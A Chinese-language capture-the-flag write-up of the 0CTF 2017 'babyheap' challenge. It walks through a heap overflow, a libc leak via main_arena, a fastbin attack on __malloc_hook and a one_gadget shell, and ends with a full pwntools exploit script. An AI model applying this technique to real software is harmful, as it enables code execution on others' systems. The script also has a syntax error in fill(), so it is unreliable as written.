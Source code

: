 题目四个功能 alloc fill free dump

![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/1.png)

（fast chunk 没有标志位 没有bk 不会合并）

题目分析

	考察点：fastbin attack

	漏洞：chunk的填充范围可大于chunk的大小，覆盖到下面的chunk

	求出libc_base，修改malloc_hook内容为shellcode，执行malloc()，等于执行getshell

第一步 求出libc_base

	两种方法

	第一种  伪造一个大chunk a覆盖下一个大于0x80的chunk b，free掉下一个chunk b，然后show伪造的chunk a，得到chunk b的fd，fd指向main_arena

    alloc(0x60)
    alloc(0x40)
    fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))

	新建两个块，用chunk0覆盖掉chunk1的头
![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/2.png)
	
    alloc(0x100)
    fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
    free(1)
    alloc(0x60)
    fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
    alloc(0x50)
    free(2)
    dump(1)

	新建一个0x100的chunk2，填充chunk2，伪造一个chunk头，距离跟chunk1刚好适合修改了的chunk1的大小，这时我们把chunk1 free掉再申请，那么chunk1真的变成0x60大了，而且还刚好覆盖掉chunk2的fd和bk的位置。

	利用chunk1修复chunk2的头，再申请一个chunk3，以防chunk2被合并，把chunk2 free掉，再把chunk1 dump出来，main_arena就出来了

![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/3.png)
![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/4.png)



求偏移：0x7f5d2bec3b78 - 0x 7f5d2bb28000 = 0x39bb78

(靶机偏移是0x3a5678   与我机差值0x9b00)

	第二种  不同指针指向同一chunk，一个free，另一个show，便得到main_arena地址

    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x80)
    free(1)
    free(2)
    payload = p64(0)*3+p64(0x21) + p64(0)*3+p64(0x21) + p8(0x80)
    #借用chunk0修改chunk2的fd指向chunk4
    fill(0, payload)
    payload = p64(0)*3+p64(0x21) + p64(0x21)
    #借用chunk3修改chunk4的头
    fill(3, payload)
    alloc(0x10)
    alloc(0x10)
    #这时指针 2 和 4 同时指向chunk4
    payload = p64(0)*3+p64(0x21) + p64(0x91)
    #借用chunk3恢复chunk4的头
    fill(3, payload)
    alloc(0x80)
    free(4)
    dump(2)
    #指针2就把chunk4的内容dump出来了

第二步 修改malloc_hook内容

	free掉两个chunk，然后修改chunk的fd为malloc_hook的地址，但系统会检测fd指向chunk的头size是否适合，所以我们找找malloc_hook地址前的数据，发现把地址偏移一下，便可构造出size为0x7f的chunk头，所以fd的内容应为malloc_hook地址加偏移量

 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/5.png)

malloc_hook偏移为0x3a5610

 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/6.png)

可见，malloc_hook上方存在0x7f，可以伪造头，只要把地址偏移一下就可以通过检查建立一个0x60的chunk，然后填充数据修改malloc内容。  偏移为 0x10+0x8+0x3+0x8。
 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/7.png)


shellcode依然由one_gadget取得
 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/8.png)


执行alloc，就会getshell。

exp：

    from pwn import *
    import sys
    
    def alloc(size):
      r.recvuntil("Command: ")
      r.sendline("1")
      r.recvuntil("Size: ")
      r.sendline(str(size))
     
    def fill(idx, length, content):
      r.recvuntil("Command: ")
      r.sendline("2")
      r.recvuntil("Index: ")
      r.sendline(str(idx)
      r.recvuntil("Size: ")
      r.sendline(str(length))
      r.recvuntil("Content: ")
      r.send(content)
          
    def free(idx):
      r.recvuntil("Command: ")
      r.sendline("3")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))
                 
    def dump(idx):
      r.recvuntil("Command: ")
      r.sendline("4")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))  
      r.recvuntil("Content: \n")
      return r.recvline()[:-1]
                 
    def exploit(r):
       alloc(0x60)
       alloc(0x40)
       fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))
       alloc(0x100)
       fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
       free(1)
       alloc(0x60)
       fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
       alloc(0x50)
       free(2)
       libcbase = u64(dump(1)[-8:]) - 0x3a5678
       
       malloc_hook = libcbase + 0x3a5610
       execve_addr = libcbase + 0x41374
       free(1)          
       payload = 'a'*0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
       fill(0, 0x60+0x10+0x10, payload)
       alloc(0x60)
       alloc(0x60)         
       payload = p8(0*3) + p64(0)*2 + p64(execve_addr)
       fill(2, len(payload), payload)
       alloc(0x20)
                 
    r = process("./babyheap")
    #r = remote()
    #print util.proc.pidof(r)
    pause()
    exploit(r)             


